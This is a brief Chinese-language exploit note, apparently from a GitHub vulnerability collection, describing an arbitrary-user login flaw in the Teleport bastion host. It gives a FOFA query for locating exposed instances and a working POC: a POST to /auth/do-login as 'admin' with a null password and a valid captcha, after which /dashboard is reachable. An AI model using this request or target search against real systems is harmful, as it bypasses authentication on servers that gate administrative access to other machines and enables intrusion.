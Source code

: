 # Teleport堡垒机 do-login 任意用户登录漏洞
## 资产收集
fofa：`app="TELEPORT堡垒机"`
![](./img/login.png)
## POC
```
post:
https://{Hostname}/auth/do-login
args={"type":2,"username":"admin","password":null,"captcha":"7hly","oath":"","remember":false}
```
验证码(参数：captcha)需要填写正确的  
返回code:0访问主页`/dashboard`即可成功登陆
